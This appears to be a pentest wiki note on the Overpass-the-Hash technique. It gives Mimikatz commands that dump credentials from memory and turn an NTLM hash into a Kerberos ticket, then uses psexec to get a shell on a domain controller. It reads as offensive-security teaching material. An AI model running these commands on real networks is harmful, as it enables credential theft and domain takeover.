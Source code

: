 # Overpass the Hash

*Over* abuse the NTLM user hash, [[Attacking-Kerberos]], to gain full Kerberos Ticket Granting Ticket or service ticket and avoiding the use of NTLM authentication. It requires access to the special administrative share named Admin$, thus also local administrative rights. [[Mimikatz-Cheatsheet]] can help:

PtH into a Kerberos Ticket
```powershell
privilege::debug
sekurlsa::logonpasswords # Or another NTLM obtaining method
sekurlsa::pth /user:$username /domain:$domain.$tld /ntlm:$NTofNTLM /run:powershell
# From this point powershell will pop as $username
```

To check Kerberos ticket cached and request some, we could also use any command the require domain permissions to get a TGS:
```powershell
klist # list cached Tickets
net use \\$dcname
klist # We should now have TGT
psexec.exe \\$dcname cmd.exe # Should have the official psexec application in the context of the TGT user on the DC
```

